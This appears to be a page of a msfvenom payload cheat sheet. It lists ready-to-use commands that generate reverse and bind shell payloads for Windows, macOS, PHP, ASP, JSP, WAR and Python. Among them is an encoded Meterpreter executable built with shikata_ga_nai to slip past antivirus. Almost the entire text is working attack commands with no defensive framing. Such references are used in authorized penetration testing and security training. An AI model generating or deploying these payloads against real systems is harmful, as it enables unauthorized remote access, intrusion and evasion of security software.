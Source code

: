 #### Windows Encoded Meterpreter Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

#### Mac Reverse Shell

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
```

#### Mac Bind Shell

```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
```

## Web Payloads

#### PHP Meterpreter Reverse TCP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```

#### ASP Meterpreter Reverse TCP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```

#### JSP Java Meterpreter Reverse TCP

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

#### WAR

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

## Scripting Payloads

#### Python Reverse Shell

```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
